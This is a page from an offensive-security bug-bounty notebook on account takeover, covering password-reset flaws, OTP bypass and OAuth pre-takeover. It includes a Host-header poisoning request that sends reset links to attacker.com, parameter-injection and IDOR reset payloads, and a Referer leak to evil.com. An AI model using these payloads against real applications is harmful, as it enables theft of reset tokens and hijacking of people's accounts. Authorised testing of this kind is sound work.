

repository: 0x3xp10i73r/offsec-vault · page: web-bugbounty/auth-ato-oauth-jwt/index.html · generator: mkdocs

---
title: "Authentication, Account Takeover, OAuth 2.0 & JWT"
description: "Account takeover methodology, password reset flaws, 2FA/OTP bypasses, OAuth 2.0 attack patterns, and JWT exploitation"
tags:
  - Bug Bounty
  - Authentication
  - Account Takeover
  - OAuth
  - JWT
  - Critical
---

# Authentication, ATO, OAuth 2.0 & JWT Exploitation

!!! note "What this page is doing"
    The question here is whether the application binds identity, recovery and token claims to the correct user, session, client and issuer. Use dedicated accounts, stop at a controlled proof, and never take over a real person’s account.

!!! tip "Why This Section Matters"
    Authentication bugs consistently pay the highest bounties. A single ATO in a SaaS platform can compromise every tenant on it. This page mirrors the **HowToHunt Account Takeover Methodology** with modern 2026 bypass variations.

---

## 1. Account Takeover (ATO) Attack Surface Map

```mermaid
flowchart TD
    A[Account Takeover] --> B[Password Reset Flaws]
    A --> C[OTP / 2FA Bypass]
    A --> D[OAuth / SSO Flaws]
    A --> E[Email Change Flaws]
    A --> F[Token / Session Flaws]
    B --> B1[Host Header Poisoning]
    B --> B2[Token Leak in Referer]
    B --> B3[Weak / Predictable Token]
    B --> B4[IDOR on User Parameter]
    C --> C1[Response Manipulation]
    C --> C2[Brute Force / Rate Limit]
    C --> C3[OTP Reuse & No Expiry]
    D --> D1[redirect_uri Bypass]
    D --> D2[state CSRF / Fixation]
    D --> D3[Pre-ATO via unverified email]
```

---

## 2. Password Reset Functionality Flaws

The 6 highest-yield password reset attacks, derived from **HowToHunt's Password Reset MindMap**:

=== "Host Header Poisoning"

    ```http
    POST /api/v1/auth/forgot-password HTTP/1.1
    Host: <DOMAIN>
    X-Forwarded-Host: attacker.com
    X-Forwarded-For: 127.0.0.1
    X-Real-IP: 127.0.0.1
    Content-Type: application/json

    {"email":"<USER>@<DOMAIN>"}
    ```

    If the reset link becomes `https://attacker.com/reset?token=...`, you've stolen the token and achieved full ATO. Test all of: `X-Forwarded-Host`, `X-Host`, `X-Forwarded-Server`, `X-HTTP-Host-Override`, and multiple `Host:` headers.

=== "Token & Parameter Manipulation"

    ```text
    # 1. Identifier Injection — send multiple email/ID params
    POST /forgot {"email":["victim@<DOMAIN>","attacker@evil.com"]}
    # 2. IDOR on reset endpoint — swap victim's ID for your own
    POST /api/reset-password {"user_id":1337,"token":"<YOUR_TOKEN>","new_password":"pwned"}
    # 3. Token leakage via Referer (3rd-party analytics/ads on reset page)
    Referer: https://evil.com/?token=<LEAKED_RESET_TOKEN>
    # 4. Weak token: short numeric / timestamp-based / MD5(email)
    # 5. No token invalidation after use -> replay attack
    # 6. Reset link does not expire / expires in days
    ```

=== "Pre-Account Takeover (Unverified Email)"

    ```text
    Step 1: Register account with victim@company.com but DO NOT verify email.
    Step 2: Victim later tries to sign up with same email -> app says "email already exists"
                OR victim uses "Sign in with Google/SSO" (federated login).
    Step 3: Many apps merge the SSO identity into the EXISTING (your) unverified account.
    Result: You now control an account with the victim's corporate email identity. P1 ATO.
    ```

---
